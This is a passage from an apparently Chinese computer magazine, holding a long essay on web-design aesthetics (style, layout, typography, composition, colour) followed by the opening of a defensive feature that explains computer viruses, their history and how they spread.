因此，当时最优秀的网页设计师队伍，几乎都是由一些落魄的平面设计师组成，那时优秀的平面设计师甚至不屑于搞网页设计，认为那简直是亵渎“设计”二字。

随着表格、层、样式等HTML代码的发展，JavaScript语言等网页编程技术的逐渐使用，使得那些优秀设计师忽然发现：原来“网页设计”这一设计门类竟然如此多姿多彩和充满魅力。通过灵活使用上述网页设计技巧，使得网页设计的表现力已经远远超过了普通平面设计的极限，构建在点线面技巧、色彩处理、布局运用等平面设计原则基础之上的，添加了互动特效、声音特效、GIF动画特效等新型设计手法的全新网页设计理念闪亮登场了。

由于欧洲的美术院校与美术机构林立，再加上那里发达的市场经济作为催化，正规的网页设计公司雨后春笋般成立了起来，这些脱胎于或者干脆由传统设计公司出资或改名而成立的网页设计公司，搜罗了众多的年轻设计师（甚至有相当多是美术院校的在校学生），很快就培育起来了一个潜力巨大的网页设计市场。正是这个市场的规范性与浓厚的商业气氛，更加促进了欧洲后来包括美国等西方国家的整个网页设计行业向着快速化、商业化的道路发展。对比今天中国与这些国家的网页设计领域的差距不难看出：我们的优秀设计师固步自封，不愿接受新事物；我们的客户对网站设计的美学原则极端轻视；我们的整个网页设计产业链仍然没有有效建立等等自身原因，正是我们今天反映在网页设计能力上与国外有着一定差距的深层原因所在。

网页设计最近的一次飞跃，应该归功于Flash技术的出现。至此，网页设计真正脱离了隶属于平面设计分支的尴尬局面，成长为一种全新的艺术设计门类。平面设计是静态的，主张用静止的形象和构图表达出一定的思想与主题。而这种静态的表达方式面对如今四面八方扑来的各类集合了声光电等表达方式的宣传手法来说，的确具有信息量有限、冲击力不足的劣势。而Flash技术正好在一定程度上弥补了这个劣势。基于Flash技术构建的网站，借鉴了大量非线性编辑（主流的视频编辑方式）的设计手段，不仅动态十足、音效震撼，更具有极强的交互性能，浏览者可以通过点击鼠标来亲身体验与网页互动的乐趣——从这层意义上来说，这类动态网页的表达能力已经超过了视频，足已成为继平面、声音、视频后的第四媒体！

随着电脑科技的飞速进步，网页设计这门艺术也在不停地进行着变革。回顾短短几年来网页设计从平面设计的附庸成长为了新兴的第四媒体的历程，又有谁胆敢再小视它的未来呢？

在接下来的内容里，就要详细讲述一些具体的网页设计理论与技巧，希望可以帮助你重新认识网页设计，并最终燃起投身网页设计这一美妙世界的激情！

#### 二、风格定位

网页设计的工作流程的构建，首先需要解决的就是网站类型的确定。明确了工作方向，然后再使用最适合的网页制作手段，依靠对网页设计的美感把握以及设计水平的高低，来完成这次网页设计。这其中首先考虑的不是使用什么软件，不是对网页设计技术有什么要求，而是对网站风格的定位！

对设计二字的理解，应该是一种创造美的过程，但也不仅仅是任由个性张扬的去创造美——这只能称之为艺术。而设计是带有目的性的，无论你是在为自己创建主页还是为客户设计网站，最终希望达到的设计目的才是整个“创造美”的过程的终点。

在到达这一终点的路途上，你需要明白所设计网站的主题和需要实现的功能有哪些，是什么？并且还要依据这些设计目的，去设想浏览者在浏览时是否可以体会到你的网站主题，是否能够轻松实现你所希望、他实现的功能。切记一点，浏览者才是评判你设计水准的上帝，即使你所设计的网站获得了诸多艺术大师的好评，但浏览者却感到不知所云、晕头转向，那，这个网页设计也是失败的。

所以风格定位的第一步就是明确设计目的。

#### （一）明确设计目的

设计不同类型的网站，手法千差万别。在不同的设计目的指引下，同一个网站很可能会被做得大相径庭，而给浏览者带来极大的困惑。因此，了解不同类型网站的一些约定俗成的模式，是“明确设计目的”的第一要务。通常来说网站有如下几大分类。

- 门户资讯类

代表网站有中国传统的门户网站新浪、搜狐等（如图1、图2）。


这类网站其实就是一个传统媒体的网上延伸，这里集合了所有平面、视频、广播等传统媒体的资讯，分门别类置于不同的板块，并且资讯更新速度极快，时效性远超过传统媒体。因此一些对世界变化非常关心的网民，经常会把门户网站设为首页，每次一上网，第一件事就是首先大肆浏览一番各类新闻和评论，这一天就不用再看什么报纸、电视了。因此，这类网站的受众极为广泛，访问量非常之大。但每一次打开这些网站的页面，并不是每一个人都会对所有类型的资讯有着相同的需求，这时就需要对网站的各类资讯进行合理的分割与布局，体现网站个性的任务就降到了次要位置，反而更应该关注与浏览者的亲和力，在色调与字体的选择上，突出人性化的特点。并且要注意网页的数据体积，门户资讯类网站的访问者数量巨大，上网条件形形色色，因此网页的数据体积太大会直接影响浏览效果，并会对服务器造成严重负担。

- 企业、机构类

代表网站有微软官方站点（Microsoft.com），Intel官方站点（Intel.com），北京大学站点（pku.edu.cn）等（如图3、图4、图5）。


这类网站大部分的实际机构在网下，网站并不是盈利或直接盈利的部门，主要起一个形象展示和提供网上服务的功能。正因为它的非盈利性，许多的该类型网站的网页设计还不是很理想。不过既要兼顾一些“门户资讯类”网站的资讯提供模式，又要兼顾展示形象的功能，对这二者的结合的把握就是该类网站所首要考虑的。

- 小企业、小机构、个人站点类

这类网站虽说也不是盈利网站，但由于建站者普遍对形象的展示比较重视，甚至做网站的目的本身就是要展示形象，至于个人网站更是要强烈追求个性化。因此这类网页设计的施展空间比较大，也比前两种类型更受到重视（如图6）。


对照上述三大类网站，了解了不同类型网站一些约定俗成的模式，明确了网站的设计目的，即可开始进行对浏览者的分析。

#### （二）分析浏览者

网站之所以被称为第四媒体，一大特点就是因为它有很强的交互性。传统媒体的受众只是单纯的接受者：看电视，你只需坐在那里，睁大眼睛（闭上也没有人管），去被动接受电视机对你的影响，此时你只是一个单纯的接受者。看报纸，也一样，一份报纸只有那些固定的版式，你唯一可以任意支配的只有决定先正着看，还是倒着看，或是从中间开始看。

而网络则不然，比如打开一个门户资讯网站，映入眼帘的都是各类栏目名称和标题，你如果一动不动，那永远得不到想要的东西。你必须在感兴趣的链接上点击鼠标，然后整个“网络浏览过程”才正式开始。在这一过程中，你的点击决定了你需要接收的资讯是什么，你的兴趣决定了你需要得到的娱乐是什么，而网站只是一个实现上述目的的工具。

从这层意义上来说，浏览者才是一个网站的真正主人，他在这个网站中的所有体验，直接决定了他对这个网站的感觉和评价。如果他认为在这个网站中所得到的与他对这个网站类别的最初判断相一致，或者甚至超出了预期，那他会用行动证明（下次继续登录）对该网站网页设计的喜爱——这个网站的网页设计就成功了。如果这个网站在美学艺术上无可挑剔但内容贫乏，或是内容非常丰富，页面却很难看，走了这二者的极端，浏览者下次再来的可能性就会减少，甚至不会再来。

所以说，浏览者是简单的，也是复杂的。他可以简单地爱上你的网站，也可以很简单地忘记他。他可以因为你的网站持久的优质服务而感到满足，但却因为一次的失望（比如某一次他认为你的网站应该有他需要的一个东西，但是没有找到，最后在别的网站找到了），而永远对你的网站失去兴趣。因此，多研究浏览者，根据自己作为浏览者的一些心理活动去分析浏览者的行为，是明确了设计目的后的又一项重要工作。

至此，对“风格定位”这一抽象的词汇就分析完了。通过阅读上文，你一定已经明白：风格是一个网站的整体形象给浏览者的综合感受。它不仅包括网站的色彩、字体、LOGO，更包括版面布局、浏览方式、交互性、内容价值、气氛等。举两个很简单的例子：搜狐的风格是平和而易于亲近的，MP3.com的风格是充满着音乐气息的，而IBM是专业、严谨、诚信的。能给你这样的感受，就是“风格”的功劳。当你寻找到，并明确了你所设计的这个网站的风格后，在接下来的具体设计中，还要时刻记住需要不断强化这种风格，突出能强化该风格的图片、LOGO、布局、色彩等。就像拥有气质的女人才最美一样，拥有独特风格的网站才会获得成功（如图7、图8）。


#### 三、版面控制

在进行完风格定位之后，网页设计开始进入到实际的设计中来。首先要考虑的就是版面控制的问题。根据网站风格定位的不同，所要放置在页面上的文字、图像、动画的不同排列与组合就是“版面控制”，它是实现网站风格定位的手段。下边就来仔细分析。

#### （一）文字

网页首先是要提供内容的，因此文字的作用就显得非常重要。其实文字本身也具有艺术魅力，书法艺术就是最好的例子。因此，字体、字号、文字的编排与强调等基于文字的网页设计原则，就是版面控制需要首先关注的。

##### 1.字体与字号

通过赋予文字不同的字体和大小（字号），可以直观地表达该网页的主要设计思想。比如一个资讯类的网站，字体通常为宋体字，字号为12磅，这样的文字是最利于阅读的。当要做一个个人主页，那进行自我介绍的字体就可以选用其他更富于变化、能体现个性的字体（粗体字、斜体字、细体字等），字号也可以选择小一些的，比如9磅。这样的字号给人一种整体感和精致感，你可以将这些文字编排为各类形状（圆形、菱形、三角形等）甚至打散以突出整体的美感（如图9、图10）。


## 2. 文字的编排

具体的文字可以传达信息、表达内容；而图片除了具有部分此功能外，更多的是具有美感。这类似于说话主要是传达信息，而唱歌主要是传递旋律美一样。因此，将众多文字组织起来，使之具有整体感，这样的文字也就部分拥有了图片的功能——具有美感。而这个将文字组织起来的工作，便称为文字的编排。

通常网页设计中的文字编排有四大类：居中、两端对齐、左对齐和右对齐、环绕图片。居中的文字编排在很多情况下都会产生混乱的感觉，但有一种情况例外，那就是整个页面的设计都围绕了该页面的中轴线在做文章，此时插入的文字也是以中线为轴，必然会与整体设计产生共鸣，产生一种另类的协调美（如图11）。


左对齐与右对齐也是一种需要整体页面设计风格相呼应的文字编排方式。它们的页面轴线应该是网页的两端，这样配合上文字，更能体现出一种不平衡的美（如图12）。


环绕图片的文字编排方式广泛用于图文混排的网页设计中。它可以在重视文字整体感的时候同时不忽略图片的存在。现在各大门户网站的新闻页面，都采用这种文字编排方式，只不过所环绕的图片变为了商业广告Flash。

两端对齐通常用于大量文字编排，比如教程、小说、长篇报道等。这样的编排方式符合大多数人的阅读习惯。

## 3. 文字的强调

文字的编排只是从宏观上组织好了文字的排列版式，要想发掘文字在网页设计中的魅力，还需要注意“文字的强调”。

通常文字的强调有两类，行首的强调与标题的强调。至于行首的强调，在中文书籍中不容易看到。而英文书籍中每一页的第一段的第一个字母，通常是要用大号字强调出来的。在中文的编排中使用这种“强调方法”，可以起到引领视线、突出重点的作用（如图13）。

标题的强调就常见多了，为了点出这段文字的主题和中心思想，通常需要跟正文的字体有区别，会更大或使用黑体等。

## （二）图像（包括动画）

图像是网页中在表现形式上有别于文字的一类页面元素。它通常起着活跃气氛，增添美感，甚至表达文字所无法表达之思想的作用（如图14）。

现如今，大量动画加入到了网页中来，它们首先代替了图像的位置，起到与图像一样的作用，更多的动画则突破了图像的那种静态形式，而采用更具动感的和色彩变化的方式吸引你的眼球。都知道青蛙是看不到静止物体的，只有当物体活动起来，才能进入青蛙的眼帘，被它识别。其实人的注意力在某种程度上类似于青蛙，既有活动的图像，又有静止的文字，你首先会关注的必然是活动的图像——这就是网页中动画的意义——吸引眼球。

在这里，笔者推出另一个悖论：当一个页面中有两幅图片，一个是泳装美女，一个是裹得严严实实的美女，即使两幅图都是静止的，你也必然会首先关注那位泳装美女——这就是吸引眼球理论的另一个内容：你的潜意识决定了你的注意力（题外话，不知道青蛙哥哥看到上述场景会有怎样的注意力变化）。


图13 该网页内的标题和行首均采用了“强调”的文字处理方法，并且手法多样。


图14 花瓣的图像充斥了网页的大半，并且随着视线的指引，你很快会发现花瓣上落着的蜜蜂，这又给网页增添了些许情趣。而这是单纯靠文字绝对无法实现的。

## （三）对比

网页设计的两大类页面元素（文字与图像）的各自作用笔者在前面已进行了讲述。在本节中，将会对它们本身以及之间的相互关系从另一个角度进行一个分析——对比。

- 1. 大小粗细的对比
通常在页面中，大的图片或文字要醒目，相比之下小的文字与图片就不够醒目。它们之间的对比强烈，则可以表达出一种富于力量的鲜明美感，反之如果对比不强烈，则会更沉着、温和一些（如图15）。


图15 宽阔的页面上，一条窄窄的浅色块纵向穿过。在浅色块底部的高亮位置，才是这个页面的主要部分——强烈的明暗与大小对比，使你很难再忘掉它。

同理，粗体字给人的感觉很有力量，让人有信任感，赋予感召力。而细体字就正好表达了粗体字的反面感觉：不够有力量，但是时髦、有美感。

- 2. 明暗的对比
明暗代表着黑与白这两个色彩中最重要元素的两种不同的感知风格。鲜明的色调，通常与白色搭配，给人一种积极、轻快的感觉。晦暗的色调，通常与黑色搭配，给人一种萧瑟、压抑的感受。它们之间的相互对比通常都会存在于一个页面中，随着页面主题的不同，色调选用会有差异，当然随之而来的明暗对比的不同就会出现。但总之，有明就要有暗，如果整个页面全部使用明亮的色调，浏览者就会感觉好像身处北极的极昼中一样（如图16）。


图16 姑且不论这个网页的页面形状是何等奇怪，单就整个页面图像的明暗对比来看，就表达出了一种宽广、高雅的艺术氛围。

- 3. 曲直的对比
同粗细、明暗的对比一样，曲直的对比也是一种类似阴和阳、唯美与力量的对比关系。曲线是阴，它具有柔和感、舒缓感，在表现一些女性主题的网页中，使用量很大。而直线是阳，天生具有力量感，平行线、箭头等都可以表达出一种严谨、执著的感情。曲与直之间的对比，可以使页面丰满，减弱性别色彩（如图17）。


图17 这个页面的曲直对比是何其强烈，充分表达了一种追求速度与节奏的情绪。


图18 这是某设计网站的首页，七个小圆套着一个大圆构成了该网站给你的第一印象，而它就决定了整个网站的总体风格。

## （四）变化

讨论了页面中的几类主要的对比之后，你一定能感到：这几类其实全部可以由对比而转为变化来重新讨论一次，比如明与暗的变化，曲与直的变化等。但区别于对比的是，变化的两种属性之间存在着很强的共性——那就是，不以任何一种属性为本，且相互之间永不稳定。而这种不稳定的美感，流动的美感，才是给人印象最深的。如果感觉笔者上边这句话有些抽象，那我们可以举一个音乐的例子：如果一首歌从头至尾只有一个相同的音符，那不仅谈不上有什么美感，而且甚至会让人听了头晕。而一支旋律不断变化，高潮迭起的音乐，定然会使你随着旋律的起伏而心波荡漾，充满迷人魅力。

再回到网页设计中来，我们知道，一个网站是由一个首页和诸多次级页面构成的，首页会给你一种版式。然而次级页面是不是还需要完全照搬这个版式呢？三级页面是不是还要照搬首页的版式呢？答案是：不必要。次级页面和三级页面在某些细节上完全可以有一些变化，进行一些创新，只要整体的风格可以确定，就足够了。有人问，那这样是不是就淡化网站风格了呢？答案依旧是否定的：在变化中确定的一类风格，才是真正的风格，这样的风格才有生命力，才会被更多的人牢记不忘（如图18、图19、图20）。

图19 这是该网站的一个次级页面，从色调和构图上基本承袭了首页的风格。


图20 这是该网站的另一个次级页面，对比图19不难看出，虽说整体风格没有大的变化，但在具体的页面安排上又有独特的地方，而这，就是所谓的“在变化中确定风格”。

## （五）重心

在网页中，所有的页面元素通过充分的对比与变化后，会形成一个网页的重心，也可以称为“意志的焦点”。有时这个重心是平衡的，有时这个重心是离散的，甚至有时会偏安一角（如图21）。


图21 这是NIKE台湾官方网站的首页，在多边形图片的大与小、多与少的对比中，强调了网页的重心的平衡感。

在表现不同的网页主题的过程里，需要的重心也不太一样。如果是门户资讯网站，那这个重心一定是要离散的。也就是说，不能过分强调网页上的某一处位置；要尊重所有拥有不同兴趣和浏览习惯的人，使之平等地进行浏览。

那些需要强调的网页就会按照人的一种潜意识——追求平衡来进行设计。比如你要突出某一幅图片，那就可以使有图片的这一边处于一种非平衡的状态，此时浏览者会不自觉地将视线流向该图片（如图22）。


图22 这是NIKE德国官方网站的首页，通过罗纳尔多带球奔跑时所体现出的重心移动方向，指引你的视线也向右移动。

至于那种偏安一角的重心理论，则是来自一种称为“视觉心理习惯”的研究结果。比如通常来说大部分人都是多使用右手，这就造成了人的潜意识里对右边的方向有一种依赖与侧重。比如背后有人叫你“小强……”，研究表明80%的人会向右转头。还比如一些突发事件场合，需要你抬起一只手去抓住某个东西，也是将近80%的人会潜意识地伸出右手。为什么书写习惯是从左往右呢？也是因为右手写起来比较方便。久而久之，人类的潜意识里，就会认为通常比较重要的东西都在右边，并且靠下，也就是一个网页的右下角。如果在这里放置一幅图片或者关键性文字，必定会使大多数人首先注意这里。君不见，写信的时候，落款和日期都是写在纸的右下角么（如图23）？


图23 该网站的进入链接就放在了右下角，而整体网页的重心也在右边——这个网站就是“视觉心理习惯”理论的标准范例。

因此，网页重心的安排，还是比较玄妙的。它需要设计者对视觉心理学有一些简单了解，这样往往可以制作出令人感到非常舒服，但又具体说不清哪里舒服的优秀网站。

#### 四、网页中的点、线、面

经过了风格定位和版面设计这两步之后，基本的网站框架就搭建起来了。接下来就要向这个框架中添加各种具体的页面元素，它们就是构图的三个基本要素:点、线、面。

### （一）点

点的概念非常宽泛，在几何学中，空间内的一个体积无限小的位置，就是点。点没有体积，没有质量，没有长度。它只有作为各种几何图形的端点而存在: 比如一条线段的两个端点;一条射线的一个端点;一个正方体的8个端点等。

而在美术上的观点是，点是所有相对于线和面的另一种视图元素;它是构成线与面的基础。具体到网页设计中的“点”，并不仅指单独的一个或几个点，也可以指由诸多点构成的一个“整体”（如图24）。


图24 还是以这个设计网站的首页为例，可以认为7个小点与一个大点是8个分散的点，它们各自有不同的链接属性；也可以将这8个点看作一个整体，它就是进入该网站内部的入口所在。

在网页中，点可以是文字，可以是图标，也可以是图像。点在网页设计中，已经成为一种非常重要的页面元素。它可以通过组合、排列，构成诸多“兴奋点”，这些地方通常都是网页设计师们放置链接的位置。点在构图中起到了强调、突出的作用；在页面的组织上，则起到了活跃气氛，提高浏览欲望，增强网站情趣等一系列作用（如图25）。


### （二）线

将点排列起来，就构成线。它不仅可以在几何上形成一种表示方向、位置、长度的页面构成，更可以通过这些构成表达一种情绪。横跨网页的水平线，表达出开阔、宁静、平和的情绪；横穿网页四个顶点的斜线则能表达出速度感、激情、时代感，并可以对视线有一个引导的作用，在斜线上放置的图片，通常会被重视；曲线的情绪表达我们在“曲直对比”中涉及了一些，它通常可以表达出温情、缓和、优美等情绪，如果跟各类直线搭配使用，更可突显直线的刚毅、力量感。

研究那些出色的页面，分析它们的页面元素构成时你会发现，线的运用是一个网页设计的成败关键：首先因为网页的美是一种协调美，而点在协调美中的作用至多只是一种调剂和点缀，它无法完成决定页面情绪和风格的任务。而线便具有这样的功能：因为线是由点组成的，理论上就会比点有更大的控制范围和表现空间，也就会对人产生更强烈的视觉冲击，表达出更为丰富的主题（如图26）。


线在网页设计中的功能不仅可以通过各种直线曲线的对比、交叠来表达情绪，更可以通过放射线、平行线来体现空间感。对美术中的透视原理有一些了解的朋友就会知道：如果想构成真实的透视效果，首先要在页面中确定一个透视焦点，然后从透视焦点引出的放射线就可以构成一种有“景深”的立体感觉。非常多具有强烈视觉气势的网页，都不约而同地采用了这种“放射线”构成的“景深”空间。“透视原理”的另一个精髓是：在横向和纵向的视觉平面里，所有的线条务必是相互平行的，这就可以形成一种烘托“景深”的作用，突显了页面元素中所刻意表达那种空间感和视觉气势。因此，要想设计出突破平面的二维限制的具有空间感的网页效果，放射线与平行线的搭配运用，不失为一个很好的方法（如图27）。


### （三）面

面是页面元素的基础，更是二维空间里具有最强烈表达能力的组成部分。我们在前边提到了线要比点的控制范围和表达能力更上一层楼；而面，又要比线所控制的范围更加广阔，表达能力更强。原因其实很简单：线是由点的排列而组成，线便可以控制点；面是由线的横向延伸而构成，面便可以决定线。因为面所占的空间要比线大得多，在人的视觉感官上，能形成的视觉冲击力也要强上许多（如图28）。

面有多种形态，方形、多边形、圆形、空白等，它们各自拥有属于自己本身的情绪和表达方式。方形通常表达出的是一种稳重、条理、坚强的男性特征。如果要设计给人以信任的企业（例如跨国公司、银行、保险公司等）的网页，方型必然是首选的一种面的形态（如图29）。

多边形通常可以烘托出一种充满艺术感的气氛。在人的潜意识里，无序的、紊乱的、不可捉摸的一些元素，通常被认为具有某种艺术气息，而多边形便是“面”中的一种不具有稳定形态、多变的元素成分，因而在一些需要强烈表达个性和独特品位的商业站点以及个人站点中，会被大量采用。


图29 这是惠普公司的首页，通过对方形的使用，给人一种稳重、坚强、可以信赖的感觉。

圆形是车轮的形状，因而天生具有动感，很难想象汽车公司的网页中不大量使用圆形或椭圆。除了汽车公司的网页会首先想到圆形以外，运动产品的网页也经常大量使用圆，这里的圆很可能会跟方形结合，形成圆角方形——这种面的形态如今被极为广泛地使用着。

至于空白，它也是一种面，通常没有什么情绪，但具有烘托其他页面元素的作用。苹果公司的网页可以称得上是网页中的艺术典范，就大量运用了空白，简单的页面构成不仅不会使人感觉单调，反而会令人生发出一种迷恋和遐想的感情——这难道不是苹果本身的魅力所在（如图30）？


> > “When I started my own company, I needed a computer I could figure out. I don't need an IT department.”
> > 
> > —— Teresa McPherson
> > Small business owner

在介绍完页面中的三类构成元素点、线、面之后，想必你已经对网页设计有了一种新的认识，就是任何事物都是有其规律的，“美”也不例外。就像如果一个事物被认为是“美”的，通常就会具有平衡、质感、符合一般比例、色彩令人愉快等特点。而有关点线面的一些规律性的特征，也是人们长久以来通过实践而总结出的一些使人感到“美”的具体理论。在实际的网页设计中结合这些理论去发掘“美”，创造“美”，才是网页设计的真正精髓。

#### 五、色彩运用

色彩对人视觉的冲击，要超过各种形态，并且色彩也是形成页面风格的最重要组成部分。在网页设计中，文字、图像的重要性要居于色彩之后。当人们打开你的网页时，最先注意的，首先一定是颜色；其次是图像，最后才会是文字。作为一个网页设计师，要重视色彩在网页设计中的重要地位，并学会与色彩进行沟通，了解它们的特性，使之完成你心目中的理想设计。

### （一）色彩的象征

与各种点、线、面本身可以表达不同的情绪一样，每一种色彩也天生具有影响人心理活动的作用。人看到不同的色彩，会立刻产生相关的联想，比如红色让人联想激情，蓝色让人联想理智。优秀的网页设计师，可以通过对色彩的运用，而达到变换浏览者心境的设计目的。

通常来说，色彩的象征意义是非常丰富的。

红色象征鲜血、太阳、火、热情、爆发、亢奋、危险；黄色象征金子、光明、财富、地位、权力；绿色象征植物、生命、安全、和平、希望；蓝色象征海洋、天空、深邃、严谨、沉静、稳重；白色象征无垠、纯洁、寒冷、神圣、清爽；黑色象征夜、死亡、宇宙、迷茫、邪恶、肃穆、悲伤等。

当然，不同颜色的象征意义对每一个人来说并不是绝对的，根据人所在国家、生长环境、教育方式等的不同，对色彩的感知也会有很大差别。因此，在网页设计中，要把握最恰当的色彩语言（这里之所以用“语言”一词，是因为色彩是沟通设计者与浏览者的一种相互理解的媒介，而只有通过语言交流才能使沟通最为完美），才能使网页最为完美。

### （二）冷暖色调与对比色调

色彩除了具有象征意义之外，它们之间的互相搭配和对比也可以表现出极为丰富的情绪。通常暖色调包括红色、橙色、黄色等，在对比中强调暖色调，可以使页面呈现热情、积极、温馨的情绪。冷色调通常包括青色、灰色、白色、紫色等，在对比中强调冷色调，可以使页面呈现出一种清凉、高洁、稳重、肃穆甚至萧瑟的情绪（如图31、图32、图33）。


在色调的对比中，同样要重视网页的美与纯艺术美的差别：网页是要表达一定目的，因此在所有艺术手法的使用上，即要像作纯艺术那样勇于创新、敢想敢干，也要重视所达成的结果是否吻合当初的设计目的。因此就要注意一种称为“大调和，小对比”的色彩搭配原则：在网页的整体色彩搭配上，尽量不要做范围太大的对比处理，而在某些小的范围可以尽量做一些具有鲜明风格的对比尝试。因为人的视觉习惯总是希望在一个大范围的视野中寻找某些兴奋点，如果全部都是令人兴奋的东西，那其实也就无所谓什么兴奋点了——令人兴奋的，只能是点，而永远不可能是面。

### （三）背景色与字体的颜色

联系之前章节中所讲的“字”在网页中的作用，再结合本章所讲的色彩的知识，可以看出，字在拥有不同的功能时，所需要的色彩处理是有不同：当字的主要功能是文本载体，那就需要醒目、易于阅读。此时与背景色的搭配就要注意尽量使用强烈的对比，在对比中突出字，而淡化背景。具体来说就是：如果背景色为深色调，那字的颜色就要淡；如果背景色为淡色调，那字体颜色就要深。

当字的主要功能是强调装饰性，是突出整体的编排形态，那此时就可以理解为一种图像元素，与背景色的搭配便可以充分发挥你的创造性和艺术感觉，而并没有太多讲究和限制了。


总之，色彩的运用是网页设计的“面子工程”，一个在色彩上毫无魅力可言的网页，很难想象可以抓住浏览者的眼球。而培养对颜色的敏感，对色彩的亲近，首先需要多留意优秀的网页设计，体会它们在选色和配色上究竟有什么独到之处，勤于研究和实践，最终一定可培养出一对对色彩极度“敏感”的慧眼。

#### 六、网页美学总论

通过对风格定位、版面控制、点线面运用、色彩运用等网页设计流程的讲解，此时你应该可以形成一套全面的网页美学观了。它凌驾于网页代码编写与程序设计之上，从网页的基本设计目的与浏览者的感观出发，探讨了构成网页的诸多元素的使用与搭配问题，并最终落脚在色彩的运用上，通过这一清晰的论述过程，必然可以使“设计具有独特风格的网页”这一网页设计的最高目标从无形的枯燥理论蜕变为华彩夺目的实际设计本领——而这也正是笔者的最终目的。
（文/油笔小新）

## 安全区
Safety Zone

病毒和网络安全一直是电脑爱好者们津津乐道的话题，但仅仅知道如何使用杀毒软件和选用何种防火墙是远远不够的。本专题将通过对病毒的解剖、个人与企业的病毒防护措施、修复恶意代码影响、解除木马等多方面实例的讲解，让您从一个“谈毒色变”的菜鸟步入到“临危不惧”的高手行列。

### 个人病毒防护方案

#### 一、病毒常识

##### (一)什么是病毒

病毒是一种具有自我复制能力的计算机程序，它能影响计算机软件、硬件的正常运行，破坏数据的正确性与完整性，其重要特性见下表。

| 病毒的五大特性 |
| :--- |
| **传染性**<br>指病毒对其它文件或系统进行一系列非法操作，使其带有这种病毒，并成为该病毒的一个新的传染源的过程。这是病毒的最基本特征。 |
| **寄生性**<br>指病毒依附于其他文件而存在。 |
| **隐蔽性**<br>指病毒的存在、传染和对数据的破坏过程不易为计算机操作人员发现，同时又是难以预料的。 |
| **潜伏性**<br>指病毒的发作一般都有一个激发条件，即一个条件控制。这个条件根据病毒编制者的要求可以是日期、时间、特定程序的运行或程序的运行次数等等。 |
| **破坏性**<br>指病毒在触发条件满足时，立即对计算机系统运行进行干扰或对数据进行恶意的修改。病毒破坏性的大小完全取决于该病毒编制者的意愿。 |

##### (二)病毒的起源和发展

与医学上的病毒不同，计算机病毒不是天然存在的，它是某些计算机高手利用计算机现有软、硬件的脆弱性，编制的具有特殊功能的程序。由于它具有传染和破坏的特性，因此被命名为“病毒”。从广义上讲，凡能够引起计算机故障、破坏计算机数据的程序统称为计算机病毒。依据此定义，诸如逻辑炸弹、蠕虫、木马等均可称为计算机病毒。

在第一台电脑尚未诞生时，电脑的先驱者冯·诺伊曼(John Von Neumann)在他的论文《复杂自动装置理论及组织的进行》中，就已经把病毒的蓝图勾勒出来。当时，绝大部分的电脑专家都无法想象这种自我繁殖的程序，只有少数几个科学家默默地研究冯·诺伊曼提出的概念。直到十年后，在美国电话电报公司(AT&T)的贝尔(Bell)实验室中，这些概念在一个叫做“磁芯大战(Core War)”的电子游戏中成形了。这种电子游戏是当时贝尔实验室中三个年轻程序人员设计出来的，其中就有罗伯·莫里斯(Robert T·Morris)，当时三人都只有二十多岁。

像这种自我繁殖的程序，只有少数几个科学家默默地研究冯·诺伊曼提出的概念。直到十年后，在美国电话电报公司(AT&T)的贝尔(Bell)实验室中，这些概念在一个叫做“磁芯大战(Core War)”的电子游戏中成形了。这种电子游戏是当时贝尔实验室中三个年轻程序人员设计出来的，其中就有罗伯·莫里斯(Robert T·Morris)，当时三人都只有二十多岁。

> **小知识**: Robert T·Morris就是后来写了全球第一个Worm(蠕虫病毒)，把ARPANET搞得天翻地覆的那个Robert T·Morris Jr的爸爸，当时老Morris刚好是负责Arpanet网络安全的工程师。

**1987年**世界各地的计算机用户几乎同时发现了形形色色的计算机病毒，如大麻、IBM圣诞树、黑色星期五等。面对计算机病毒的突然袭击，众多计算机用户甚至专业人员都有些惊慌失措。

**1988年**发生在美国的“蠕虫病毒”事件，给计算机技术的发展罩上了一层阴影。该病毒是由美国CORNELL大学的研究生莫里斯编写的。虽然在编写时并无恶意，但病毒通过校园网传播开来，在Internet上大肆传染，使得数千台电脑停止运行，造成巨额损失，成为一时的舆论焦点。

**1989年**全世界的计算机病毒已经十分猖獗，我国也未幸免。其中，“米开朗基罗”病毒给许多计算机用户造成了极大损失。

**1991年**在“海湾战争”中，美军第一次将计算机病毒用于实战。在空袭巴格达的战斗中，美军成功地破坏了对方的指挥系统，使之瘫痪，保证了战斗的顺利进行。

**1992年**出现了针对杀毒软件的“幽灵”病毒，如One-half。

**1996年**出现针对微软公司Office的“宏病毒”。

**1997年**被公认为是计算机反病毒界的“宏病毒”年。“宏病毒”主要感染Word、Excel等文件，是自1996年9月开始在国内出现并逐渐流行的病毒。其中Word宏病毒，早期是用一种专门的Basic语言Word Basic编写的程序，后来改为使用Visual Basic编写。与其它计算机病毒一样，它能对用户系统中的可执行文件和数据文本类文件造成破坏。

##### (三)病毒产生的原因

计算机病毒的来源多种多样。有的是计算机工作人员或业余爱好者纯粹为了寻开心制造出来的。有的则是软件公司为保护自己的产品被非法拷贝而制造的报复性惩罚，因为他们发现病毒比加密对付非法拷贝更有效且更有威胁，但这种做法在一定程度上助长了病毒的传播。还有一种情况是蓄意破坏，分为个人行为和政府行为两种。个人行为多为雇员对雇主的报复行为，而政府行为则是有组织的战略战术手段。在海湾战争中，美国防部一秘密机构曾对伊拉克的通讯系统进行了有计划的病毒攻击，一度使伊拉克的国防通讯陷于瘫痪。另外，还有一些病毒则是用于研究或实验而设计的“有用”程序，由于某种原因失去控制，扩散出实验室或研究所，从而成为危害四方的计算机病毒。据估计，目前保存在实验室或研究所的病毒不下20000种。这些呆在实验室中的幽灵一旦从“潘多拉的盒子”中走出来，后果可以想像。

##### (四)计算机病毒的传播途径

计算机病毒传播途径主要包含以下几个方面(如下图)，我们来逐一介绍。


- 1. 通过软盘读写进行攻击

这是最古老、最有效的病毒攻击手段。通过受感染的软盘启动系统，使引导型病毒进入系统引导区或系统分区表；通过拷贝和运行受感染程序，使文件型病毒进行传染。

- 2. 通过CDROM读写进行攻击

制作低劣的盗版CDROM盘片是计算机病毒最好的寄生地和传染源，而且是长期的传播源。

- 3. 通过网络共享进行攻击

企业局域网络的应用日益普及，高效的企业信息管理系统和办公自动化系统离不开局域网的支持。网络的基本功能之一是资源共享，而受病毒感染的文件共享所造成的恶果，是传统病毒传染途径所力不能及的。如FUNLOVE病毒能主动寻找共享传播，迅速感染整个网络。

- 4. 通过电子邮件系统进行攻击

电子邮件已成为人们交换信息最方便、快捷的工具之一，通过受感染的电子邮件附加文件传播病毒，也已成为计算机病毒打破地域、时域限制进行传播的主要手段。

- 5. 通过FTP下载进行攻击

